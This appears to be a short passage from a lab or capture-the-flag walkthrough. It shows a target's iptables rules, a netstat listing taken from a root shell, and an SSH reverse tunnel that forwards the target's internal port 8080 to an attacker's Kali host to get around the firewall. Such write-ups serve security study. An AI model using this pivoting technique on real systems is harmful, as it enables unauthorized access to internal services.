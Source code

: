 	-A INPUT -m state --state RELATED,ESTABLISHED -j ACCEPT
	-A OUTPUT -m state --state RELATED,ESTABLISHED -j ACCEPT

	-A INPUT -p tcp -m state --state NEW -m tcp --dport 21 -j ACCEPT
	-A INPUT -p tcp -m state --state NEW -m tcp --dport 9001 -j ACCEPT
	-A INPUT -p tcp -m state --state NEW -m tcp --dport 8009 -j ACCEPT

	-A OUTPUT -o enp0s3 -m owner --uid-owner sleepy -j DROP

	COMMIT

## netstat


	bash-4.2# netstat -ntlp
	Active Internet connections (only servers)
	Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
	tcp        0      0 0.0.0.0:9001            0.0.0.0:*               LISTEN      1357/java           
	tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      831/vsftpd          
	tcp6       0      0 127.0.0.1:8005          :::*                    LISTEN      1320/java           
	tcp6       0      0 :::8009                 :::*                    LISTEN      1320/java           
	tcp6       0      0 :::8080                 :::*                    LISTEN      1320/java

## Forward port 8080

	ssh-keygen -P "" -f key
	bash-4.2$ ssh -N -f -R 8080:127.0.0.1:8080 kali@192.168.56.1 -i key

